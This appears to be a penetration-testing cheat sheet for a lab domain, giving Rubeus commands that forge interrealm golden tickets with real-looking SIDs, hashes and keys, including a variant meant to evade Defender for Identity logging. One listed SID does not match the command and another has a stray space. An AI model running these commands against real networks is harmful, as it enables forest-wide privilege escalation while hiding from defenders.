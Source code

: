 # Methodology
>1. 

---
# Powershell
>**ℹ️ Info:**
>
> Remember to follow the [PowerShell scripts methodology](../00%20-%20Miscellaneous/01-%20Methodology.md#PowerShell%20Scripts).

## PowerView

---
# Binaries
>**ℹ️ Info:**
>
> Remember to follow the [binaries methodology](../00%20-%20Miscellaneous/01-%20Methodology.md#Binaries).

## Rubeus

**Forge an interrealm golden ticket:**
```cmd
Rubeus.exe golden /user:Administrator /domain:us.techcorp.local /sid:S-1-5-21-2781415573-3701854478-2406986946 /krbtgt:a6215eeb238da9262d014a529fe03adb /sids:S-1-5-21-2781415573-3701854478-2406986946-519 /groups:513 /ptt /nowrap
```

where:
- `golden` - Specifies Golden Ticket attack mode in Rubeus
- `/user` - Specifies the username to impersonate (e.g., `Administrator`)
- `/domain` - Targets the forest root domain (e.g., `us.techcorp.local`)
- `/sid` - Provides the current domain's SID
- `/krbtgt` - Uses the NTLM hash of the child domain's KRBTGT account
- `/sids` - Adds Enterprise Admins group SID (`-519`) for forest-wide privileges
- `/ptt` - Injects ticket directly into memory (Pass-the-Ticket)
- `/nowrap` - Outputs ticket without base64 line wrapping

**Avoid suspicious logs and bypass MDI by using Domain Controller identity:**
```cmd
Rubeus.exe golden /user:us-dc$ /id:1000 /domain:us.techcorp.local /sid:S-1-5-21-210670787-2521448726-163245708 /groups:513 /sids:S-1- 5-21-2781415573-3701854478-2406986946-516,S-1-5-9 /aes256:5E3D2096ABB01469A3B0350962B0C65CEDBBC611C5EAC6F3EF6FC1FFA58CACD5 /dc:us-dc.us.techcorp.local /ptt
```

where:
- `S-1-5-21-2578538781-2508153159-3419410681-516` – Domain Controllers 
-`S-1-5-9` – Enterprise Domain Controllers
